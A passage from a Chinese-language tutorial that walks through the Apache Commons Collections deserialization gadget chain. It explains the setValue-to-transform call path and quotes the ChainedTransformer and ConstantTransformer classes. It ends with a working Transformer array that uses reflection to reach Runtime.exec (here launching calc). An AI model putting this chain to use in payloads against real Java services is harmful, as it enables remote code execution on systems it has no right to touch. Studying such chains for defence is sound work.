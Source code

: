 流程即为：`setValue ==> checkSetValue ==> valueTransformer.transform(value)`。

好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个 `InvokerTransformer`实例级联在一起组成一个 `ChainedTransformer` 对象，在其调用的时候会进行一个级联 `transform()` 调用：

```java
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

这个函数迭代了所有`Transformer`类中`transform`方法，并将传回来的object对象放到下一个`Transformer`中进行使用。

这里还有一个`ConstantTransformer`类，它只是返回我们传进去的对象。于是我们可以传入`Runtime.class`对象,就能进行命令执行操作了。

```java
**
 * Constructor that performs no validation.
 * Use <code>getInstance</code> if you want that.
 * 
 * @param constantToReturn  the constant to return each time
 */
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}
 
 /**
 * Transforms the input by ignoring it and returning the stored constant instead.
 * 
 * @param input  the input object which is ignored
 * @return the stored constant
 */
public Object transform(Object input) {
    return iConstant;
}
```

这样就可以形成我们一个执行任意代码的执行链了：

```java
Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",                  //方法名
                    new Class[] {String.class, Class[].class },  //参数类型
                    new Object[] {"getRuntime", new Class[0] }), //参数值
            new InvokerTransformer("invoke", 
                    new Class[] {Object.class, Object[].class }, 
                    new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec",
                    new Class[] {String.class },
                    new Object[] {"calc"})
        };
```

